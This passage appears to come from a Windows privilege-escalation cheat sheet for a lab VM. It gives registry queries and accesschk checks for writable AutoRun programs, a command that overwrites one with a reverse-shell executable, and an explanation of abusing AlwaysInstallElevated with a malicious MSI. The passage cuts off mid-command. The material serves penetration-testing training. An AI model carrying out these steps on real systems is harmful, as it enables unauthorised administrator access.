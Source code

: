 #### Restart machine
 
## Registery
### Autoruns
Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.

#### Enumerate autorun executables
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

#### Check executables manually
```
.\accesschk.exe /accepteula -wvu "<PATH TO EXE>"
```

#### Check all autoruns
```
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program"
```
 
#### If an autorun executable is found, make a copy
```
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

#### Copy reverse shell to overwrite the autorun executable:
```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"
```

#### Start a listener on Kali, and then restart the Windows VM to trigger the exploit.
Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

### AlwaysInstallElevated
MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine: HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer If either of these are missing or disabled, the exploit will not work.

#### Manually check
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Mi
```
